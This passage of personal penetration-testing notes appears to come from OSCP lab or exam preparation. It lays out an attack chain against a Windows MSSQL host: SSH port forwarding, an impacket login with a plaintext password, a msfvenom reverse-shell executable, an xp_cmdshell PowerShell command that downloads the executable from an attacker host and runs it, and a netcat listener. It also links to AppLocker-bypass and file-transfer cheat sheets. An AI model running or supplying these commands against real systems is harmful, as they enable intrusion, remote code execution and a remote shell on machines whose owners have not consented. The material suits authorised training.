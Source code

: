 [[https://pentestlab.blog/2017/05/29/applocker-bypass-msbuild/]{.underline}](https://pentestlab.blog/2017/05/29/applocker-bypass-msbuild/)

## 

# Local Port Forwarding

ssh -L 1433:10.10.126.148:1433 Administrator@192.168.236.147 -N

Then try login :

impacket-mssqlclient oscp.exam/sql_svc:Dolphin1@127.0.0.1 -windows-auth
-port 1433

Rce via mssql :

![](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image33.png){width="6.5in"
height="2.0416666666666665in"}

Or following this :

[[https://0xdf.gitlab.io/2022/10/01/htb-scrambled-beyond-root.html#get-execution-via-mssql]{.underline}](https://0xdf.gitlab.io/2022/10/01/htb-scrambled-beyond-root.html#get-execution-via-mssql)

Get full reverse shell :

Try reverse port forward

sudo ssh -R 10.10.126.147:7781:192.168.45.191:18890
administrator@192.168.236.147 -N

Create malicious exe :

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.126.147 LPORT=7781
EXITFUNC=thread -f exe \--platform windows -o rshell.exe

Then execute via mssql :

xp_cmdshell powershell \"Invoke-WebRequest -Uri
http://10.10.184.147:7781/rshell.exe -OutFile
c:\\Users\\Public\\rshell.exe\"

Dont forget to setup listoner to download file :

python3 -m http.server 18890

Then use netcat and exec

xp_cmdshell c:\\Users\\Public\\rshell.exe

nc -nlvp 18890

# **File transfer cheat sheet :**

-   [[https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/]{.underline}](https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/)

-   [[https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65]{.underline}](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)
